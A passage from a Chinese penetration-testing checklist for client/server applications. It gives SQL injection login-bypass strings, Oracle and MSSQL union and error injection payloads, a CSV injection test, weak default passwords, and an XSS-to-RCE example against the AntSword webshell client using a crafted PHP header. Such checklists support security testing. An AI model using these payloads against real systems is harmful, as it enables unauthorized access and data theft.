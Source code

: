 xxx’ or ‘x’=’x

xxx’ or 1=1--

输入框处，构造闭合报错，如’、’)、%’)、order by 100--等。

利用显示位或报错注出数据，原理同web注入，不同数据库大同小异。

<br/> 

案例0-oracle注入

' union select null,null,(select user from dual),null,null,(select banner from sys.v_$version where 	rownum=1),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from dual--

![cs16](https://github.com/theLSA/cs-checklist/raw/master/demo/cs16.png)

<br/>

案例1-mssql注入

111') and (select user)>0--

![cs17](https://github.com/theLSA/cs-checklist/raw/master/demo/cs17.png)

<br/>

#### **CSV注入**

如导出excel，输入1+1，导出后看是否为2。

<br/> 

#### **弱口令**

可尝试admin 123456等。

<br/>

#### **XSS**

如Electron，NodeWebKit等。

<br/> 

案例0-中国蚁剑xss到rce

环境：win7+phpstudy(php5.6.27-nts)+perl+nc+antsword2.0.5

xss webshell：

`<?php`

`header('HTTP/1.1 500 <img src=# onerror=alertx>');`

![cs18](https://github.com/theLSA/cs-checklist/raw/master/demo/cs18.png)

Win+node.js:

成功
